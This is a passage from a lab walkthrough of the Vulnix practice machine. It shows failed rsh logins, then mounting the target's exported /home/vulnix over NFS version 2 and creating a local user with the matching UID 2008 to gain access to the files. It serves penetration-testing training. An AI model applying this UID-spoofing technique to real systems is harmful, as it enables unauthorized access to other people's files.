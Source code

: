 When I test it:
```shell
$ rsh 192.168.56.118 -l vulnix id
```
Then it does not work, and as I did before, I test it with all users, but it always asks me for a password.

Given the rest of the ports depend on the services I have already checked, then I will start trying to `mount` the `/home/vulnix/` directory. When I create the user `vulnix`:
```shell
$ sudo useradd vulnix -s /bin/bash
```
And I check if I can access `/mnt/vulnix`, then it does not work. When I change the `uid` and `gid` to `1001`:
```shell
$ sudo usermod -u 1001 -g 1001 vulnix
```
And I try with more `uid` values, then it does not work, and this method does not seem to be practical.
When I read the Hacktricks post about `Pentesting NFS Service` again, then I notice that it recommends using the `-o vers=2` options. When I `unmount` the directory:
```shell
$ sudo umount -f -l /mnt/vulnix
```
And I use the mount command with the `-o vers=2` options:
```shell
$ sudo mount -t nfs -o vers=2 192.168.56.118:/home/vulnix /mnt/vulnix \
> -o nolock
```
And I check the `/mnt` directory, then I see:
```shell
drwxr-x--- 2 2008 2008 4.0K Sep  2  2012 vulnix
```
And I can see that the `uid` and `gid` is `2008`. When I remove the `vulnix` user:
```shell
$ sudo userdel vulnix
```
And I create it again with the `uid` `2008`:
```shell
$ sudo useradd vulnix -u 2008 -s /bin/bash \
> -p (/usr/bin/openssl passwd vulnix)
```
And I use the `su` command:
```shell
$ sudo su vulnix
```
And I try to check the `/mnt/vulnix` directory again, then it works:
